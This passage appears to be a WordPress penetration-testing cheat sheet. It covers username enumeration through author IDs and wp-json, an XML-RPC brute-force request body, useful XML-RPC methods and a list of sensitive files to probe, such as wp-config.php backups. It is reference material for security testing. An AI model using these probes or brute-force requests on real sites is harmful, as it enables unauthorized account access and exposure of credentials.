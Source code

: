 - /?author=1
    - `http://target.com/?author=1`
    - Increment the number to get more
- User enum with admin panel
    - If you have access to admin panell you can get valid usernames </br>
    ![wpb](https://user-images.githubusercontent.com/63053441/137263541-19c7df14-4ae4-41f7-b5c3-2a438bb05eb1.png)<br></br>



### Exploit
If you have xmlrpc.php and this User enumeration both presence there. Then you can chain them out by collecting username from wp-json and perform Bruteforce on them via xmlrpc.php. It will surely show some extra effort and increase the impact as well.</br>
To perform the bruteforce login send the following request in the POST method.</br>
```
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
```
![image](https://user-images.githubusercontent.com/63053441/137264288-1cd036f8-a002-4409-8b23-ab8833cc6984.png)</br>

I think now you can assume the impact of this vulnerability , it can be used to perform bruteforce attacks for secure credentials and also can automate a major DDOS attack. </br>
Usefull methods:
```
wp.getUserBlogs
wp.getCategories
metaWeblog.getUsersBlogs
```

### Reference
[H1 Report](https://hackerone.com/reports/356047)


# Sensitive files exposed
This is list of files that can exposure sensitive data, so add it to your list
```
wp-includes
wp-content/uploads
wp-content/debug.log
Wp-load
Wp-json
index.php
wp-login.php
wp-links-opml.php
wp-activate.php
wp-blog-header.php
wp-cron.php
wp-links.php
wp-mail.php
xmlrpc.php
wp-settings.php
wp-trackback.php
wp-ajax.php
wp-admin.php
wp-config.php
.wp-config.php.swp
wp-config.inc
wp-config.old
```